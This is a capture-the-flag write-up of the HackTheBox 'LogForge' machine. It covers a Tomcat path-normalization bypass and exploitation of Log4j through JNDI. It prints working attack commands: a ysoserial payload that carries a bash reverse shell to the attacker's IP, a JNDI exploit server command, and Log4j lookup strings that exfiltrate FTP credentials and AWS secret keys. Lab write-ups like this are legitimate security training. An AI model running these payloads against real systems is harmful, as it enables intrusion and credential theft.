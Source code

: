 ```yaml
---
title: LogForge
author:
  name: kill5witch
  link: https://github.com/cotes2020
date: 2021-12-25 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Web Application, Log4j, Linux, Nginx, Path Normalization]
math: true
mermaid: true
image:
  src: /assets/images/2022-01-12-10-53-32.png
  width: 694
  height: 515
  alt: image alternative text
---
```


**LogForge is Linux box which introduces Log4j Vulnerability.**
# Enumeration
## NMAP
```
luka@kali:~/htb/logforge/nmap$ nmap -sC -sV -oA nmap 10.10.11.138
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-24 20:55 CET
Nmap scan report for 10.10.11.138
Host is up (0.033s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open     http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ultimate Hacking Championship
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## WebPage on Port 80
![](/assets/images/2022-01-11-19-22-43.png)

Going to page that doesn't exist shows, that there is difference regarding which server is running on port 80 (Apache or Apache Tomcat), which makes us asume that we're dealing with reverse proxy.
![](/assets/images/2022-01-11-19-24-26.png)

# Exploitation
So from very basic enumeration let's start to exploitation.
First on the menu is breaking the parser logic. 
## Breaking parser logic on Apache / Tomcat
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

We'll use a neat trick to trick Reverse Proxy to not block us after opening `/manager/`. 
![](/assets/images/2022-01-11-19-25-22.png)
We'll be able to bypass that and still end on Tomcat because tomcat doesn't treat that ::; as URL.
`http://10.10.11.138/idontexist/..;/manager/` will open the Login prompt (Login with `tomcat/tomcat`).
We should be able to login to Tomcat manager.
![](/assets/images/2022-01-11-19-25-42.png)
## Log4J Exploit / CVE-2021/44882
There are a lot of good explanations on Log4J, so i'll won't be diving into that. I've done the PoC before which used simple JNDI payload, which loaded malicious class after LDAP Callback and gave reverse shell. 

Exploiting Log4J on this box is a little more tricky.
First of all, we need to get an execution, so let's try injecting simple payload into Tomcat.
`${jndi:ldap://10.10.14.18:1389/Ajej.class}`
![](/assets/images/2022-01-11-19-25-57.png)
I ran `tcpdump` but nc listening on port 1389 would also do the job. 
There's callback so Application is vulnerable.
![](/assets/images/2022-01-11-19-26-11.png)
Like suggested in the ippsec's video https://www.youtube.com/watch?v=XG14EstTgQ4, approach mention in the post https://twitter.com/marcioalm/status/1470361495405875200 will be used. In addition to that post, we'll not be using the regular Ysoserial, but Ysoserial-modified: https://github.com/pimps/ysoserial-modified
JNDI-Exploit-kit: https://github.com/pimps/JNDI-Exploit-Kit.git

### Creating payload
```
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.18/4444 0>&1' > /home/luka/htb/logforge/rev
```

### Starting JNDI-Exploit-Kit
```
java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.18:1389 -P /home/luka/htb/logforge/rev
```
![](/assets/images/2022-01-11-19-26-30.png)
### Reverse Shell
Put `${jndi:ldap://10.10.14.18:1389/rev}` again in the manager's field which gives us RCE and start it. Reverse shell should pop:
![](/assets/images/2022-01-11-19-26-44.png)
If the payload wouldn't work, we could use also one of the following:
```
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/s5ie1k
ldap://10.10.14.18:1389/s5ie1k
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/kfaicp
ldap://10.10.14.18:1389/kfaicp
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.10.14.18:1099/koifwi
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/2blnim
ldap://10.10.14.18:1389/2blnim
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/e6xn7g
ldap://10.10.14.18:1389/e6xn7g
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.14.18:1099/urpkwl
```

# Privilege Escalation
## FTP Server (Java) running as root
```
root         769       1  0 Dec24 ?        00:00:00 /usr/sbin/cron -f
root         937     769  0 Dec24 ?        00:00:00  \_ /usr/sbin/CRON -f
root         943     937  0 Dec24 ?        00:00:00      \_ /bin/sh -c /root/run.sh
root         944     943  0 Dec24 ?        00:00:00          \_ /bin/bash /root/run.sh
root         945     944  0 Dec24 ?        00:00:59              \_ java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```
![](/assets/images/2022-01-11-19-27-09.png)
Unintended way to solve the box is to log into FTP on localhost with any user, and simple use dir and cat to read the flag etc.

Intended way (according to IppSec's video) is to exploit the vulnerable Log4J FTP Application. We can exploit Log4J simply by putting same string as we did above into the username, and we'd get a callback from an application. Because this app does not have any gadgets, we need to dig deeper into the application.
So download the ftp server application to Kali and open it with `jd-gui`.

You should see Log4J decompiled classes right away.
In `Worker.class` we can see user and the pass which will be passed from environment variable.
```java
  private String validUser = System.getenv("ftp_user");
  
  private String validPassword = System.getenv("ftp_password");
```

Both can be read using JNDI, so let's try that.
`${jndi:ldap://10.10.14.18:1389/${env:ftp_user}/${env:ftp_password}}`

Run `tcpdump -i tun0 -A port 1389`
Somewhere in the middle we should find, leaked username and password:
![](/assets/images/2022-01-11-19-28-27.png)
FTP Login should work. We can either grab a flag only or download `.ssh/id_rsa`

### Exflitration of other Data
Exfiltration of other data is also possible. This is short list from here: https://therceman.medium.com/log4j-vulnerability-cheatsheet-66b7aeabc607
```
${hostName}  
${sys:user.name}  
${sys:user.home}  
${sys:user.dir}  
${sys:java.home}  
${sys:java.vendor}  
${sys:java.version}  
${sys:java.vendor.url}  
${sys:java.vm.version}  
${sys:java.vm.vendor}  
${sys:java.vm.name}  
${sys:os.name}  
${sys:os.arch}  
${sys:os.version}  
${env:JAVA_VERSION}  
${env:AWS_SECRET_ACCESS_KEY}  
${env:AWS_SESSION_TOKEN}  
${env:AWS_SHARED_CREDENTIALS_FILE}  
${env:AWS_WEB_IDENTITY_TOKEN_FILE}  
${env:AWS_PROFILE}  
${env:AWS_CONFIG_FILE}  
${env:AWS_ACCESS_KEY_ID}
```

For example:
`${jndi:ldap://10.10.14.18:1389/${hostName}/......./${sys:user.name} /......./${sys:user.dir}/......./${sys:os.version}}`
![](/assets/images/2022-01-11-19-28-42.png)

